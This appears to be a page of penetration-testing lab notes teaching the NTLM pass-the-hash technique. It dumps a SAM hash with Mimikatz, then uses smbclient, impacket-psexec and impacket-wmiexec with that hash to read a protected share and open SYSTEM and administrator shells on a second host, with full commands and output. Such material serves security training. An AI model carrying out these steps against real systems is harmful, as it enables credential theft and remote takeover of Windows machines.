

# Passing NTLM

The previous example showed a methodology for extracting and cracking an NTLM hash. While this is useful in some instances, it is dependent on the strength of the password. If the password is strong, this can range from time consuming to infeasible.

Fortunately, there are ways to leverage the NTLM hash _without cracking it_. In this section an example will show a **Pass the Hash** (**PtH**) technique for NTLM hashes.&#x20;

This technique can be used to authenticate to a local or remote target with a valid combination of username and NTLM hash rather than a plaintext password. This is possible because NTLM/LM password hashes are not salted and remain static between sessions.

Additionally, if an attacker were to discover a password hash on one target, they could use it to not only authenticate to that target, but to another target as well, as long as the second target has an account with the same username and password. To leverage this into code execution of any kind, _the account also needs administrative privileges on the second target_.

If the attacker does not use the local `Administrator` user in pass-the-hash, successful code execution is still obtainable provided the machine is configured a certain way. Since Windows Vista, all Windows versions have [UAC remote restrictions](https://learn.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction) enabled by default. This prevents software or commands from running with administrative rights on remote systems. This effectively mitigates this attack vector for users in the local administrator group aside from the local `Administrator` account.

## Example

### Background and Assumptions

In this attack the ultimate goal is twofold:

1. To access a machine called `FILES02` (hosted at `192.168.235.212`) as `Administrator` via SMB
2. To gain an interactive shell on `FILES02`

Both objectives will be accomplished by passing the hash obtained from `FILES01`.

#### Assumptions

* Attacker has gained access to FILES01 via a compromised account with credentials `gunther:password123!`
  * User (`gunther`) has permissions to run PowerShell as Administrator
* Copy of Mimikatz is already installed in the `C:\tools` directory for simplicity

### Extracting the Hash

After connection to FILES01, first attempt connection to the SMB share located at \\\192.168.235.212\secrets via File Explorer using the user gunther's credentials:

<figure><figcaption><p>It would seem Gunther does not have access to this share</p></figcaption></figure>

Since this failed, open a PowerShell session as `Administrator`, navigate to `C:\tools`, start `mimikatz.exe`, and extract the SAM database as seen in [Cracking NTLM](cracking-ntlm.md):

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
...
 -> Impersonated !
...

mimikatz # lsadump::sam
...

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7a38310ea6f0027ee955abed1762964b
```

The hash will be retained for later. The RDP connection is no longer needed and can be closed.

### Passing the Hash

Now that the hash has been obtained it is time to use it to authenticate to the share via SMB. In order to do this, an SMB client that supports authentication by NTLM hash must be used. Fortunately many such clients exist:

For SMB enumeration and management there are:

* [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html)
* [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)

For command execution there are:

* Scripts from [impacket](https://github.com/fortra/impacket)
  * [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py)
  * [wmiexec.py](https://github.com/fortra/impacket/blob/master/examples/wmiexec.py)

Attackers can also use NTLM hashes to to connect via other protocols like RDP and [WinRM](https://learn.microsoft.com/en-us/windows/win32/winrm/portal) (Windows Remote Management), if the user has the required rights.

One could use Mimikatz to conduct pass-the-hash as well.

Since the first goal of this example is to access the target via SMB, `smbclient` will be used:


```shell-session
kali@kali:~$ smbclient \\\\192.168.235.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jun  2 14:55:37 2022
  ..                                DHS        0  Wed Oct 18 18:52:21 2023
  secrets.txt                         A       16  Thu Sep  1 10:23:32 2022

                4554239 blocks of size 4096. 1601785 blocks available
smb: \> get secrets.txt 
getting file \secrets.txt of size 16 as secrets.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit
```


* `--pw-nt-hash` informs smbclient that the authentication method will be an NTLM hash
* `-U` passes the desired username

Authentication was successful and `secrets.txt` was retrieved!

### Obtaining a Shell

#### psexec.py

The [psexec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) tool from the impacket library will be leveraged for this example.&#x20;

The script is very similar to the original Sysinternals [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) command. The script:

1. Searches for a writable share and uploads an executable file to it
2. Registers the executable as a Windows service and starts it

The desired result is often to obtain an interactive shell or code execution.

On Kali, an attacker can use the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/) tool to execute `psexec.py`. The command used will be:


```
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.235.212
```


* `-hashes` allows attackers to use NTLM hashes to authenticate to the target
  * The format is `LMHash:NTHash` in
  * Include the extracted `Administrator` NTLM hash after the colon
    * Because only the NTLM hash is used the LMHash section can be filled with 32 0's
* Second argument is the target definition
  * Format is `username@ip`

```shell-session
kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.235.212
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on 192.168.235.212.....
[*] Found writable share ADMIN$
[*] Uploading file aPLdMdFe.exe
[*] Opening SVCManager on 192.168.235.212.....
[*] Creating service VduR on 192.168.235.212.....
[*] Starting service VduR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.707]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> hostname
FILES02

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> ipconfig
 
Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::2874:4ab7:5ad0:8d57%4
   IPv4 Address. . . . . . . . . . . : 192.168.235.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.235.254

C:\Windows\system32> exit
```

Due to the nature of `psexec.py`, the shell obtained will always be `SYSTEM` privileges regardless of the credentials used to authenticate.

The attacker has thus gained a shell on the target machine.

#### wmiexec.py

The same outcome can be achieved using the `wmiexec.py` script (also from `impacket-scripts`) via the command:


```
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.235.212
```


The arguments are the same as for `psexec.py` [above](passing-ntlm.md#psexec.py). The result of this command is also much the same as above:

```shell-session
kali@klai:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.235.212
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>hostname
FILES02

C:\>whoami
files02\administrator

C:\>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::2874:4ab7:5ad0:8d57%4
   IPv4 Address. . . . . . . . . . . : 192.168.235.212
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.235.254

C:\>exit
```

The main difference is that with `wmiexec` the shell is created with the user from authentication (`Administrator`) as being `SYSTEM` when using `psexec`.
